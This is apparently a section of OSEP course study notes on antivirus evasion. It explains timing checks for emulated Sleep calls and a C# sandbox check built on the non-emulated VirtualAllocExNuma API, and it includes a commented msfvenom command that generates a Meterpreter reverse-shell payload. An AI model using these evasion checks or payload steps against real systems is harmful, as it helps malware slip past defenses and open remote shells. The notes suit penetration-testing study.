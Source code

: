 To determine the elapsed time, we use the `Subtract` method and convert this into seconds with the `TotalSeconds` property. Next, we try to determine if the `Sleep` call has been emulated by inspecting the time lapse. In this case, we are testing for a lapse of 4.5 seconds to allow for inaccuracies in the time measurement. If the time lapse is less than 4.5 seconds, we can assume the call was emulated and simply exit instead of executing shellcode.

## 6.4.2 Non-emulated APIs

Antivirus emulator engines only simulate the execution of most common executable file formats and functions -> attempt to bypass detection using Win32 API that is either incorrectly emulated.

In general, there are two ways of locating non-emulated APIs
- Reverse engineer the antivirus emulator -> highly complex
- Test out various Win32 API agains the Antivirus engine.

In this section, the Non-emulated API are **VirtualAllocExNuma** and **FlsAlloc**, We are already using this Win32 API from [5.1.2 Process Injection in C#](https://github.com/col-1002/OSEP-Course/blob/main/Modules/Module%205.%20Process%20injection%20and%20migration.md#512-process-injection-in-c)

### VirtualAllocExNuma

[VirtualAllocExNuma](https://learn.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualallocexnuma) function Reserves, commits, or changes the state of a region of memory within the virtual address space of the specified process, and specifies the NUMA node for the physical memory.

```cs
[System.Runtime.InteropServices.DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
static extern IntPtr VirtualAllocExNuma(
		IntPtr hProcess, 
		IntPtr lpAddress, 
		uint dwSize, 
		UInt32 flAllocationType, 
		UInt32 flProtect, 
		UInt32 nndPreferred
);

	IntPtr mem = VirtualAllocExNuma(GetCurrentProcess(), IntPtr.Zero, 0x1000, 0x3000, 0x4, 0);
	// If the Win API is not emulated and the AV emulator runs the code, it will not return a valid address.
	if (mem == null) { return; }

	// msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.0.0.123 LPORT=443 -f csharp
	byte[] buf = new byte[511] { SHELLCODE_GO_HERE };

	int len = buf.Length;
	uint uLen = (uint)len;
```

- **`hProcess`**: A handle to the process in which memory will be allocated. Use of `GetCurrentProcess()` in the function call suggests that memory is being allocated in the address space of the current process.
- **`lpAddress`**: The desired starting address of the allocated memory. When set to `IntPtr.Zero`, the system determines where to allocate the memory.
- **`dwSize`**: The size of the memory region to allocate, in bytes. In this case, `0x1000` or 4096 bytes.
- **`flAllocationType`**: The type of memory allocation. `0x3000` corresponds to `MEM_COMMIT | MEM_RESERVE`, indicating that memory is both reserved and committed.
- **`flProtect`**: The memory protection desired for the allocated region. `0x4` corresponds to `PAGE_READWRITE`, allowing read and write access to the allocated memory.
- **`nndPreferred`**: The preferred NUMA node for the memory allocation. Setting this to `0` specifies that the memory should be allocated from the closest available NUMA node.
